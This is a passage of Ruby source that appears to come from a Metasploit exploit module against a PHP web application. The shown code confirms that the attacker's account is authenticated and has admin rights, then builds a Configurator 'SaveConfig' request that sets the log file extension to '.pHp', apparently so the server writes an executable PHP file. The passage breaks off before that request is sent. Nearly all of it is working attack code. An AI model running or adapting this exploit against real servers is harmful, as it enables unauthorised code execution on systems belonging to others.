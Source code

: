         auth_succeeded?(res)
      end

      def auth_succeeded?(res)
        return false unless res

        if res.code == 200
          print_good("Authenticated as: #{datastore['USER']}")
          if res.body.include?('Unauthorized access to administration.')
            print_warning("#{datastore['USER']} does not have administrative rights! Exploit will fail.")
            @is_admin = false
          else
            print_good("#{datastore['USER']} has administrative rights.")
            @is_admin = true
          end
          @authenticated = true
          return true
        else
          print_error("Failed to authenticate as: #{datastore['USER']}")
          return false
        end
      end

      def post_log_file(data)
        send_request_cgi(
          {
            'method' => 'POST',
            'uri' => normalize_uri(target_uri, 'index.php'),
            'ctype' => "multipart/form-data; boundary=#{data.bound}",
            'keep_cookies' => true,
            'headers' => {
              'Referer' => "#{full_uri}#{normalize_uri(target_uri, 'index.php')}?module=Configurator&action=EditView"
            },
            'data' => data.to_s
          }
        )
      end

      def modify_system_settings_file
        filename = rand_text_alphanumeric(8).to_s
        extension = '.pHp'
        @php_fname = filename + extension
        action = 'Modify system settings file'
        print_status("Trying - #{action}")

        data = Rex::MIME::Message.new
        data.add_part('SaveConfig', nil, nil, 'form-data; name="action"')
        data.add_part('Configurator', nil, nil, 'form-data; name="module"')
        data.add_part(filename.to_s, nil, nil, 'form-data; name="logger_file_name"')
        data.add_part(extension.to_s, nil, nil, 'form-data; name="logger_file_ext"')
        data.add_part('info', nil, nil, 'form-data; name="logger_level"')
        data.add_part('Save', nil, nil, 'form-data; name="save"')
